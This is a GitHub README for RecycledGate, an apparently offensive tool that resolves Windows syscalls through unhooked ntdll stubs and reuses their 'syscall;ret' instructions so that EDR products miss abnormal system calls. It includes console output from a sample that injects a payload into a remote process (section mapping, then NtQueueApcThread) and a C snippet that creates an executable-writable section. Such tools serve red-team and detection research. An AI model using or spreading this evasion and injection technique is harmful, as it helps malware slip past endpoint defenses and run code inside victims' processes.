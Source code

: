 # RecycledGate

This is just another implementation of Hellsgate + Halosgate/Tartarosgate.    

However, this implementation makes sure that **all system calls still go through ntdll.dll** to avoid the usage of direct systemcalls.
To do so, I parse the ntdll for nonhooked syscall-stubs and re-use existing ```syscall;ret``` instructions - thus the name of this project.   

This probably bypasses some EDR trying to detect abnormal systemcalls.    
I have verified the sample program in this repository against [syscall-detect](https://github.com/jackullrich/syscall-detect) by [@winternl_t](https://twitter.com/winternl_t) which uses the [HookingNirvana](https://github.com/ionescu007/HookingNirvana/blob/master/Esoteric%20Hooks.pdf) technique to detect abnormal systemcalls.

```
.\Sample.exe HelloWorld.bin
[SYSCALL-DETECT] Console logging started...
[SYSCALL-DETECT] ntdll BaseAddress: 0x368508928
[SYSCALL-DETECT] win32u BaseAddress: 0x0
[*] Resolving Syscall: 916c6394
        Found syscall using Halos gate
        Found syscall; ret instruction
        Syscall nr: 74
        Gate: 00007FF9160100E2
[SNIP]
[*] Resolving Syscall: 8a4e6274
        Found syscall using Halos gate
        Found syscall; ret instruction
        Syscall nr: 188
        Gate: 00007FF916010F12
[*] Created section: 0x00000000000000B4
[*] Mapped section locally: 0x000001B244E50000
[*] Mapped section remote: 0x0000000000FE0000
[*] NtQueueApcThread successfull
[*] Resumed thread
```

The sample program can be found in the **sample** folder     

## Usage
Here is a snippet, which should be self-explanatory.
```c
Syscall sysNtCreateSection = { 0x00 };
NTSTATUS ntStatus;

dwSuccess = getSyscall(0x916c6394, &sysNtCreateSection);
if (dwSuccess == FAIL)
  goto exit;

PrepareSyscall(sysNtCreateSection.dwSyscallNr, sysNtCreateSection.pRecycledGate);
ntStatus = DoSyscall(&hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sizeBuffer, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
if (!NT_SUCCESS(ntStatus)) {
  printf("[-] Failed to create section\n");
  goto exit;
}

```
**Note**:
* No instructions must exist between the call to **PrepareSyscall** and **DoSyscall**
* The hash algorithm used is djb2. All hashes must be encrypted with the key **0x41424344**. You can use the Hashgenerator in this repository

## Credits

* [Am0nsec](https://twitter.com/am0nsec?lang=en) and RtlMateusz for [Original Hellsgate implementation](https://github.com/am0nsec/HellsGate)
* [@0xBoku](https://twitter.com/0xBoku) for inspiration and his [Halosgate implementation](https://github.com/boku7/AsmHalosGate/)
* [Sektor7](https://sektor7.net) for the amazing [windows evasion class](https://institute.sektor7.net/view/courses/rto-win-evasion/)
* [@winternl_t](https://twitter.com/winternl_t) for the amazing [blogpost on detection of direct syscalls](https://winternl.com/detecting-manual-syscalls-from-user-mode/)
